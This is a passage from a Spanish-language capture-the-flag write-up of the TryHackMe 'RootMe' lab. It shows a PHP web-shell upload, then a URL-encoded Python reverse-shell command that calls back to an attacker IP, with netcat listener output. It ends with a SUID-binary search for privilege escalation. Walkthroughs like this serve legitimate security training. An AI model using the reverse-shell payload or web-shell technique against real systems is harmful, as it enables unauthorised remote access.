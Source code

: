 Al subir el archivo de extensión **php5** vemos que podemos subir el archivo y ejecutar comandos a nivel de sistema.

![""](/assets/images/thm-rootme/rootme6.png)

Trataremos en entablarnos una reverse shell a nuestro equipo de atacante. Para este caso, utilizaremos una reverse shell en python de acuerdo con [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
10.10.250.92/uploads/k4mishell.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.85.95%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.250.92] 46254
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya nos encontramos dentro de la máquina y para trabajar más cómodos, haremos un [Tratamiento de la tty](/posts/tratamiento-tty). Como ya nos encontramos dentro de la máquina, podemos visualizar la primera flag (user.txt) que se encuentra en `/var/www/`. Ahora debemos buscar una forma de escalar privilegios.

```bash
www-data@rootme:/var/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/var/www$ sudo -l
[sudo] password for www-data: 
www-data@rootme:/var/www$ cd / 
www-data@rootme:/$ find \-perm /4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
./snap/core/8268/bin/mount
./snap/core/8268/bin/ping
./snap/core/8268/bin/ping6
./snap/core/8268/bin/su
./snap/core/8268/bin/umount
```